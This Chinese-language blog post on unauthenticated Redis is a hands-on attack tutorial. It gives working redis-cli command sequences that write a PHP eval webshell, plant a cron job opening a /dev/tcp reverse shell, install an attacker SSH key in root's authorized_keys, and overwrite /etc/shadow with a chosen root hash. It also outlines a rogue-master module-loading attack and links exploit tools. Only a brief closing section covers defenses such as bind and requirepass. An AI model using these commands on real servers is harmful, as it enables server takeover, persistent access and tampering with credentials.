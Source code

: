```yaml
---
layout:     post
title:      Redis未授权相关
date:       2020-05-20
author:     lceCr4m
header-img: img/16.jpg
catalog: true
tags:
    - Redis
---
```

> 本文主要是关于Redis的相关内容。~~520的千反田~~

# 0x00 前言
主要写Redistribution未授权访问的相关内容，包括：ssrf-redis，redis-getshell，redis-crontab，redis-publickey，redis-shadow，redis-slaveof。

# 0x01 Redis未授权访问介绍
Redis默认情况下，会绑定在0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源ip访问等，这样将会将Redis服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据。攻击者在未授权访问Redis的情况下，利用Redis自身的提供的config命令，可以进行写文件操作，造成相关漏洞。  
上述总结：
```
1.redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网。
2.没有设置密码认证（一般为空），可以免密码远程登录redis服务。 
```
# 0x02 SSRF-Redis
主要是利用在外网的主机上存在ssrf，之后通过gopher协议，向未授权访问的内网中的redis写入shell。在之前的文章中有讲过。
# 0x03 Redis-GetShell
条件：  
1. 靶机redis未授权，在攻击机上能用redis-cli连。  
1. 开了web服务器，并且知道路径（如利用phpinfo，或者误爆路经），还需要具有文件写权。

操作：
```
redis-cli -h 192.168.0.144
连接靶机redis后：
靶机ip:6379>config set dir /var/www/
靶机ip:6379>config set dbfilename shell.php
靶机ip:6379>set x "<?php @eval($_POST['hack']);?>"
靶机ip:6379>save
```
# 0x04 Redis-Crontab
介绍：  
crotab是linux下执行计划任务的工具。通过写入crontab实现反弹shell。

条件：
1. 能够回连。
1. 权限足够。
2. redis未授权。

操作：

```
nc -lvnp 4444
redis-cli -h 192.168.0.144
连接后：
靶机ip:6379>set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.144/4444 0>&1\n\n"
靶机ip:6379>config set dir /var/spool/cron
靶机ip:6379>config set dbfilename root
靶机ip:6379>save
```
# 0x05 Redis-PublicKey
介绍：  
通过写入自己的ssh公钥，以便于使用自己的私钥进行登录目标靶机。

条件：
1. 靶机开启ssh服务（如22端口）。
1. 权限足够。
2. redis未授权

操作：

```
ssh公钥一般保存在/root/.ssh
首先在攻击机生成ssh公私钥：id_rsa，id_rsa.pub
之后将公钥写入靶机：两种方式
1.连接靶机redis后：
靶机ip:6379>config set dir /root/.ssh
靶机ip:6379>config set dbfilename authorized_keys
靶机ip:6379>set x "publickey"
靶机ip:6379>save
2.在攻击机上将生成的公钥写入key.txt，并写入redis：
cat key.txt | redis-cli -h 192.168.0.144 -x set crack
之后连接靶机redis：
redis-cli -h 192.168.0.144
得到redis备份的路径：
CONFIG GET dir
更改redis备份路径为ssh公钥存放目录（一般默认为/root/.ssh）：
靶机ip:6379>config set dir /root/.ssh
设置上传公钥的备份文件名字为authorized_keys：
config set dbfilename authorized_keys
查看有没有authorized_keys文件，若有则成功

写入公钥后，可以在攻击机上使用ssh的私钥登录靶机：
ssh -i id_rsa root@192.168.0.144
```
# 0x06 Redis-Shadow
介绍1：  
通过写靶机的shadow修改登录密码。

条件：
1. 未授权
2. 有写shadow权限

介绍2：  
/etc/passwd文件允许所有用户读取，易导致用户密码泄露，因此Linux系统将用户的密码信息从/etc/passwd文件中分离出来，并单独放到/etc/shadow中，只有root用户拥有读权限，其他用户没有任何权限，这样就保证了用户密码的安全性。  
字段含义：用户名:加密密码:最后一次修改时间:最小修改时间间隔:密码有效期:密码需要变更前的警告天数:密码过期后的宽限时间:账号失效时间:保留字段

操作：

```
连接redis后：
config set dir /etc
config set dbfilename shadow
set xx "\n\nroot:$6$ZPEUqn3oQNFJNomM$5WKlngU6M9dP2i2CPhVxA7.0b0zo60u4blq.Uaf.xTVOyXP3H/.W00/MROiiuGlKTaNrV1O3iKnKD7IDfVLoh.:18373:0:99999:7:::\n\n"
save
切记：此方式比较危险
```
# 0x07 Redis-Slaveof
介绍：  
redis保存的数据并不是简单的json或者是csv，所以其他方式写入的文件都会有大量的无用数据，之前写入的方式主要利用了crontab，ssh key，webshell这样的文件都有一定容错性，再加上crontab和ssh服务可以说是服务器的标准的服务，所以比较通用。  
但是随着技术的进步，对于docker来说，一个单一的容器中不会有除redis以外的任何服务存在，包括ssh和crontab，再加上权限的严格控制，只靠写文件就很难再getshell。

redis主从复制：  
redis为了备份和提高性能，有一台主服务器，n台从服务器，从服务器会实时备份主服务器数据。

redis外部拓展：  
在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以实现在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。

过程：
1. 本地编译好外部扩展即so文件
1. 把so文件转码存入本地redis数据库
1. 到目标服务器上设置主从关系，主服务器指定我们的本地机子
1. 待同步后，设置备份路径和备份文件名（exp.so）
1. 利用fullresync进行同步，备份数据库
1. 然后加载备份数据库
1. 然后通过redis执行命令反弹shell

工具：  
https://github.com/n0b0dyCN/redis-rogue-server  =>  exp.so文件  
https://github.com/Ridter/redis-rce  =>  redis-rce.py文件/redis-rogue-server.py文件

# 0x08 防御
1.通过绑定ip进行控制，redis.conf文件找到配置进行修改。
```
# If you want you can bind a single interface, if the bind option is not
# specified all the interfaces will listen for incoming connections.
#
# bind 127.0.0.1
```

2.设置密码，以提供远程登陆。找到redis.conf配置文件，找到requirepass设置密码后重启redis。设置密码后可以在登录时输入，也可以登陆后输入。不输入密码可以登录但无法执行命令。之后可以通过config get requirepass查看密码。
```
redis.conf内容修改处：
requirepass yourpassword
```


















